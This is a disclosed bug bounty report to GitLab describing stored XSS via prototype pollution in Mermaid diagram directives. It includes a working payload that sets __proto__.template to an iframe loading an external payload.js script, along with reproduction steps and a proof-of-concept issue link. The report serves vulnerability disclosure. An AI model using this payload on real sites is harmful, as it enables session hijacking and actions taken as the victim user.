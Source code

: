 # Stored XSS via Mermaid Prototype Pollution vulnerability

## Report Details
- **Report ID**: 1280002
- **URL**: https://hackerone.com/reports/1280002
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-07-27T21:40:11.411Z
- **Disclosed**: 2021-11-18T02:03:27.229Z

## Reporter
- **Username**: misha98857
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

I am continue investigating #1106238 and found additional vector for prototype pollution and stored xss.

### Steps to reproduce

1. Create an issue in any repository
2. Create mermaid diagram with following payload:
```
%%{init: { '__proto__': {'template': '<iframe xmlns=\"http://www.w3.org/1999/xhtml\" srcdoc=\"&lt;script src=https://gitlab.com/bugbountyuser1/csp/-/jobs/1030502035/artifacts/raw/payload.js&gt; &lt;/script&gt;\">'}} }%%
%%{init: { '__proto__': {'template': '<iframe xmlns=\"http://www.w3.org/1999/xhtml\" srcdoc=\"&lt;script src=https://gitlab.com/bugbountyuser1/csp/-/jobs/1030502035/artifacts/raw/payload.js&gt; &lt;/script&gt;\">'}} }%%
sequenceDiagram
Alice->>Bob: Hi Bob
Bob->>Alice: Hi Alice
```
3. This will pollute template attribute and, for example, if we click on the search bar after the page loaded, XSS will be executed. This still requires minimal user interaction.

### POC

1. Open https://gitlab.com/cataha319/stored-xss/-/issues/2
2. After page loaded, try select search menu on top bar.

{F1391031} {F1391036}

### What is the current *bug* behavior?

Mermaid allows setting __proto__ attribute in the directive which leads to stored XSS.

### What is the expected *correct* behavior?

Mermaid doesn't allow __proto__ attributed to being set in the directive and merged with the config.

### Output of checks

This vulnerability was tested on gitlab.com. On a local Gitlab instance with a newer version(same as gitlab.com) of Mermaid, it works too.

## Impact

An attacker who can add Mermaid diagram to the page will can steal some data or make any actions as user.

## Attachments
- Screenshot_from_2021-07-28_01-27-59.png
- Screenshot_from_2021-07-28_01-35-22.png
